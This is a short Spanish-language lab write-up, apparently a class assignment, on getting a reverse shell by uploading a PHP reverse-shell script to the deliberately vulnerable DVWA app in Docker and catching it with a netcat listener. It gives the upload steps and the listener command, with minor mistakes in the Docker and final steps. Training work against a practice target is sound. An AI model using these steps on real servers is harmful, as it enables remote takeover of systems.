





# Tarea Fileupload


En esta tarea  se va a realizar un _reverse shell_ subiendo un archivo ejecutable para que nuestra víctima se conecte al equipo del atacante al visitar una url.


Descárgate éste [fichero](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) , y guardalo como _shell.php_
Edítalo y cambia la ip por la de tu equipo



Instala una imagen docker que contiene una web vulnerable, como la del proyecto [DVWA](https://dvwa.co.uk/) , donde subiremos el fichero.
Puedes construir tu imagen docker desde [aquí](https://github.com/digininja/DVWA).

```bash
$ git clone https://github.com/digininja/DVWA.git
```
Nos movemos dentro del directorio que acabamos de clonar y ejecutamos _docker run_ para construir nuestra imagen.

```bash
$ `docker run --rm -it -p 80:80 vulnerables/web-dvwa`
```


Ahora, una vez en funcionamiento, nos dirigiremos a la sección _File Upload_  y subiremos el archivo _shell.php_ que hemos modificado anteriormente.





En este punto, desde el equipo atacante, ejecuta en una consola el siguiente código:
```bash
$ nc -v -n -l -p 1234
```




Ya solo queda esperar a que el equipo de la víctima, visite la ip del equipo atacante




Y abrimos una conexión en la víctima.




